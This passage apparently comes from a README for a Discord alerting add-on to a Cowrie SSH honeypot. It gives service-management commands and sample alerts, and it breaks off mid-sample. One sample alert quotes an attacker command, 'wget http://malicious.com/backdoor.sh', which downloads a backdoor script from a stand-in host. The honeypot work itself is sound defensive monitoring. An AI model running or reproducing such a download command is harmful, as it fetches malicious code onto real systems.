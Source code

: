 ## 🔧 Management Commands

```bash
# Service Management
sudo systemctl status cowrie-discord-monitor
sudo systemctl restart cowrie-discord-monitor
sudo journalctl -u cowrie-discord-monitor -f

# Testing
sudo -u cowrie python3 /opt/cowrie/discord-monitor/test_webhook.py

# Quick Setup (for team members)
./quick_setup_discord.sh

# Manual Start (for debugging)
sudo -u cowrie /opt/cowrie/discord-monitor/start_monitor.sh
```

## 🛡️ Security Features

- **Secure Configuration**: Webhook URLs stored with restricted permissions
- **User Isolation**: Runs as unprivileged `cowrie` user
- **Rate Limiting**: Prevents Discord API abuse
- **Log Rotation**: Automatic cleanup of old logs
- **Git Protection**: Webhook URLs excluded from version control

## 📊 Sample Alerts

### Successful Login Alert
```
🚨 SUCCESSFUL LOGIN DETECTED!
Attacker successfully logged in!

IP Address: 192.168.1.100
Username: admin
Password: admin123

Source IP: 192.168.1.100
Credentials: admin:admin123
```

### Suspicious Command Alert
```
⚠️ SUSPICIOUS COMMAND EXECUTED!
Command: wget http://malicious.com/backdoor.sh

Source IP: 192.168.1.100
Session: a1b2c3d4...

Command:
```bash
wget http://malicious.com/backdoor.sh
```
```

### File Upload Alert
```
📤 FILE UPLOAD DETECTED!
Attacker uploaded a file!
